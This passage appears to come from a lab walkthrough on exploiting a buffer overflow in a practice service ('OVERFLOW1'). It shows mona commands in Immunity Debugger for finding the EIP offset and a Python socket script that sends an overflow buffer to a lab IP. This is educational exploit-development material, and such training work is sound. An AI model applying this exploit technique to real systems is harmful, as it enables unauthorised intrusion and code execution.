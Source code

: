 ```python
  print("Could not connect.")
```

Paste the created pattern into payload variable (because of its length I will not paste it here).

Now run the *exploit.py*


Now in Immunity Debugger write the command below:

```
!mona findmsp -distance 2000
```

> Log data, item 18 Address=0BADF00D Message=EIP contains normal pattern : 0x6f43396e (offset 1978)


Save the value of offset and put it into our *exploit.py*. Set also retn variable to e.g. "AAAA".

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "AAAAA"
padding = ""
payload = "" # paste the pattern here
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

After running it, look at Registers in ImmunityDebugger


![](p/2.png)
